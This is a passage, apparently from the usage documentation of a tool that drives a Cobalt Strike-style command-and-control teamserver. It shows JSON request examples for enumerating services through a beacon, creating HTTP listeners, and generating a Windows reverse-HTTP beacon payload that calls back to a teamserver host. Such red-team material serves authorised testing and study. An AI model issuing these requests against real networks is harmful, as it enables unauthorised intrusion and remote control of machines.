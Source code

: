 ```bash
  "target": "192.168.1.0/24",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### Service Enumeration
```bash
# Service enumeration
{
  "action": "service_enum",
  "beacon_id": "beacon_001",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### Listener Management
```bash
# Create listener
{
  "action": "create_listener",
  "listener_name": "http_listener",
  "listener_type": "http",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}

# List listeners
{
  "action": "list_listeners",
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```

### Payload Generation
```bash
# Generate payload
{
  "action": "generate_payload",
  "payload_type": "windows/beacon_http/reverse_http",
  "lhost": "192.168.1.100",
  "lport": 8080,
  "teamserver_host": "192.168.1.100",
  "teamserver_port": 50050,
  "client_password": "password123"
}
```
